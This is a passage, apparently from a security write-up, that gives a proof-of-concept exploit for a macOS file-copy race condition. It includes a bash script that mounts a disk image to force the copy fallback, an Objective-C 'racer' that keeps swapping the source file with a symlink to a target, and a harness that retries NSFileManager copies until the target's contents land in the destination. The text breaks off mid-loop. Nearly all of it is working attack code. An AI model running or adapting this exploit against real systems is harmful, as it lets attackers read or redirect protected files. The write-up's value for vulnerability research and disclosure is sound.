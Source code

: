 ### Try to exploit

`prepare.sh`:

```
#!/bin/bash
echo src > /tmp/src
echo target > /tmp/target
mkdir /tmp/dir
hdiutil create -size 10m -volname .exploit -ov /tmp/disk.dmg
hdiutil attach /tmp/disk.dmg -mountpoint /tmp/dir
```

After creating the source and target files, mount to the destination directory to force the clone operation to fail and fall back to the copy file function logic.

`racer.m`:

```
int main(int argc, const char * argv[]) {
    if (argc != 3) {
        NSLog(@"Usage:%s /path/to/src /path/to/target", argv[0]);
        return -1;
    }
    symlink(argv[2], "/tmp/lnk");
    while (1) { // swap the src with the symlink to target
        renamex_np(argv[1], "/tmp/lnk", RENAME_SWAP);
    }
    return 0;
}
```

The racer program is designed to permanently swap the source file between a regular file and a symbolic link.

`test.m`:

```
int main(int argc, const char * argv[]) {
    if (argc != 4) {
        NSLog(@"Usage:%s /path/to/src /path/to/dst /path/to/target", argv[0]);
        return -1;
    }
    
    struct stat st = {0};
    lstat(argv[1], &st);
    size_t src_size = st.st_size;
    NSLog(@"src:%s, size=%zu", argv[1], src_size);
    
    char cmd[MAXPATHLEN];
    snprintf(cmd, MAXPATHLEN, "./racer \"%s\" \"%s\" &", argv[1], argv[3]);
    NSLog(@"spawning racer with cmd: %s", cmd);
    system(cmd);

    id dm = [NSFileManager defaultManager];
    NSURL *srcURL = [NSURL fileURLWithPath:[NSString stringWithUTF8String:argv[1]]];
    NSURL *dstURL = [NSURL fileURLWithPath:[NSString stringWithUTF8String:argv[2]]];
    for (int i = 1; i != 100000; ++i) {
        NSLog(@"retry = %d", i);
        [dm removeItemAtURL:dstURL error:nil];
        [dm copyItemAtURL:srcURL toURL:dstURL error:nil];
        memset(&st, 0, sizeof(st));
        if (0 == lstat(argv[2], &st) && (st.st_mode&S_IFMT) == S_IFREG && st.st_size != src_size) {
            NSLog(@"success!");
            system("pkill -9 racer");
            break;
        }
```